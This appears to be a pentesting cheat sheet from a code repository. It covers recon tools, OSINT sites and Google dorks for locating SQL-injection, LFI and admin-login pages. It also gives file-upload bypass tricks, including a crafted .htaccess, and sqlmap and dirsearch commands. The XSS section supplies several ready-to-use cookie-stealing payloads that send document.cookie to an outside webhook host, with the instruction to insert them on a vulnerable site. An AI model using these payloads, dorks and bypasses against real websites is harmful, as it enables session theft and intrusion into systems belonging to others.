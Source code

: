 ## Hacker AI
- [HackerGPT](https://chat.hackerai.co/)

## Web Application Enumeration
- [assetfinder](https://github.com/tomnomnom/assetfinder):
    - Find domains and subdomains potentially related to a given domain.
- [amass](https://github.com/OWASP/Amass)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [sublist3r](https://github.com/aboul3la/Sublist3r)
    -  Enumerate subdomains of websites using OSINT
- [httprobe](https://github.com/tomnomnom/httprobe)
    - Take a list of domains and probe for working http and https servers.
- [waybackurls](https://github.com/tomnomnom/waybackurls)
    - Accept line-delimited domains on stdin, fetch known URLs from the Wayback Machine for *.domain and output them on stdout.
- [whatweb](https://github.com/urbanadventurer/WhatWeb)
    - recognises web technologies including content management systems (CMS), blogging platforms, statistic/analytics packages, JavaScript libraries, web servers, and embedded devices.
- [nmap](https://nmap.org/download.html)
    - Performs network mapping of attack surfaces and external asset discovery using open source information gathering and active reconnaissance techniques.
- [eyewitness](https://github.com/FortyNorthSecurity/EyeWitness) 
    - EyeWitness is designed to take screenshots of websites provide some server header info, and identify default credentials if known.

## Cross Site Scripting Steal Cookie

### Insert this payload on vulnerable site

1. Payload with alert
```javascript
<script>
alert(document.cookie);
var i=new Image;
i.src="http://webhook_link/?"+document.cookie;
</script>
```

2. Payload no alert
```javascript
<script>var i=new Image;i.src="http://webhook_link/?"+document.cookie;</script>
```

3. Payload no script tag
```html
<img src=x onerror=this.src='http://webhook_link/?'+document.cookie;>
```

4. Payload no script tag and loop
```html
<img src=x onerror="this.src='http://webhook_link/?'+document.cookie; this.removeAttribute('onerror');">
```

5. Result 

![alt text](images/image.png)

## Website OSINT

- [BuiltWith](https://builtwith.com/)
- [Domain Dossier](https://centralops.net/co/)
- [DNSlytics](https://dnslytics.com/reverse-ip)
- [SpyOnWeb](https://spyonweb.com/)
- [Visual Ping](https://visualping.io/)
- [Back Link Watch](http://backlinkwatch.com/index.php)
- [View DNS](https://viewdns.info/)
- [urlscan.io](https://urlscan.io/)
- [DNSdumpster](https://dnsdumpster.com/) *MX Record for email.
- [Web Check](https://web-check.as93.net/)
- [crt.sh](https://crt.sh/)
- [Shodan](https://shodan.io)
- [Wayback Machine](https://web.archive.org/)

## Google Dorks for Vulnerability

### SQLI
- inurl:pageid=
- inurl:games.php?id=
- inurl:page.php?file=
- inurl:newsDetail.php?id=
- inurl:gallery.php?id=
- inurl:show.php?id=
- inurl:staff_id=
- inurl:newsitem.php?num=

### LFI
- /index.inc.php?PATH_Includes=
- /ashnews.php?pathtoashnews=
- /ashheadlines.php?pathtoashnews=
- /modules/xgallery/upgrade_album.php?GALLERY_BASEDIR=
- /demo/includes/init.php?user_inc=
- /jaf/index.php?show=
- /inc/shows.inc.php?cutepath=
- /poll/admin/common.inc.php?base_path=
- /pollvote/pollvote.php?pollname=
- /sources/post.php?fil_config=

### SQLI LGGIN BYPASS
- intitle:”Admin Login” “admin login” “blogware”
- intitle:”Admin login” “Web Site Administration” “Copyright”
- intitle:”AlternC Desktop”
- intitle:”Athens Authentication Point”
- intitle:”b2evo > Login form” “Login form. You must log in! You will have to accept cookies in order to log in” -demo -site:b2evolution.net
- intitle:”Cisco CallManager User Options Log On” “Please enter your User ID and Password in the spaces provided below and click the Log On button to co
- intitle:”ColdFusion Administrator Login”
- intitle:”communigate pro * *” intitle:”entrance”
- intitle:”Content Management System” “user name”|”password”|”admin” “Microsoft IE 5.5″ -mambo
- intitle:”Dell Remote Access Controller”
- intitle:”Docutek ERes – Admin Login” -edu
- intitle:”Employee Intranet Login”

[More](https://github.com/0xAbbarhSF/Info-Sec-Dork-List/tree/main)

## File Upload Vulneraility

1. change extension name to bypss
.php, .php2, .php3, .php4, .php5, .php6, .php7, .phps, .phps, .pht, .phtm, .phtml, .pgif, .shtml, .htaccess, .phar, .inc, .hphp, .ctp, .module

1. Use null byte extension
reference : https://book.hacktricks.xyz/pentesting-web/file-upload

1. Change configuration (Apache only)
- Craft Malicious Configuration: 

```bash
php_flag engine on
AddType application/x-httpd-php .php
AddType application/x-httpd-php .phtml
AddType application/x-httpd-php .php3
AddType application/x-httpd-php .php4
AddType application/x-httpd-php .php5
AddType application/x-httpd-php .pht
AddType application/x-httpd-php .phps
```

4. Change Magic byte
try buat request yang valid lepastu just selitkan jer die punya, kita punya payload. tujuan die nak kekalkan magicbyte masa upload.

Reference:
- [PayloadAllTheThings](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Upload%20Insecure%20Files)
- [Hacktricks](https://book.hacktricks.xyz/pentesting-web/file-upload)

## SQLI Vulnerability

### sqlmap cheatsheet:

- From burp (capture requst and create req.txt)

```bash
sqlmap -r req.txt --current-user
```
   
- GET Request Injection

```bash
sqlmap -u "http://example.com/?id=1" -p id
sqlmap -u "http://example.com/?id=*" -p id
```

- POST Request Injection

```bash
sqlmap -u "http://example.com" --data "username=*&password=*"
```

- PUT Request Injection

```bash
sqlmap --method=PUT -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

- Headers Injection

```bash
#Inside cookie
sqlmap  -u "http://example.com" --cookie "mycookies=*"

#Inside some header
sqlmap -u "http://example.com" --headers="x-forwarded-for:127.0.0.1*"
sqlmap -u "http://example.com" --headers="referer:*"

#The injection is located at the '*'
```

[sqlmap cheatsheet](https://book.hacktricks.xyz/pentesting-web/sql-injection/sqlmap)

### Web Aplication enumeration (dirsearch advance)

- Install with git: git clone https://github.com/maurosoria/dirsearch.git --depth 1

## Usage

-e: extension
-u: target
-w: wordlist
-o: output
-r: recursion

```bash
python3 dirsearch.py -e php,html,js -u https://target -w /path/to/wordlist -t 20 -o reports.txt
```

```bash
python3 dirsearch.py -e php,html,js -u https://target -r
```

```bash
python3 dirsearch.py -e php,html,js -u https://target -r --exclude-subdirs image/,media/,css/
```
